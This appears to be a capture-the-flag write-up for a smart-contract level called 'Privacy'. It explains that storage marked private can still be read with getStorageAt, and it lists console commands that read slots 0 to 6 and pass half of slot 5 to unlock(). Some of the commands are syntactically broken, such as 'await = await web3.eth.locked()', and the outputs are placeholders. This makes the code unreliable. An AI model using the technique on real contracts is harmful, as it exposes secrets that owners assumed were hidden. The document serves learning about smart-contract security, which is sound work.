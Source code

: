 # Privacy

## Description

This smart contract is a more complex version of [#8 Vault](contracts/vault).
We know that we need that the key is the last value stored in storage so we just
use `web3.eth.getStorageAt()` until we get 0. The last slot is 5 because the
three `uint` variables only take up 1 slot (each slot is 32 bytes). We then
slice the last storage value in half due to the `bytes16()` cast.

## Command Sequence

```
> await = await web3.eth.locked()
true
> await web3.eth.getStorageAt(instance, 0)
some hex value
> await web3.eth.getStorageAt(instance, 1)
some hex value
> await web3.eth.getStorageAt(instance, 2)
some hex value
> await web3.eth.getStorageAt(instance, 3)
some hex value
> await web3.eth.getStorageAt(instance, 4)
some hex value
> await web3.eth.getStorageAt(instance, 5)
some hex value
> await web3.eth.getStorageAt(instance, 6)
'0x0000000000000000000000000000000000000000000000000000000000000000
> value = await web3.eth.getStorageAt(instance, 5)
> await contract.unlock(value.slice(0,34))
> await = await web3.eth.locked()
false
```
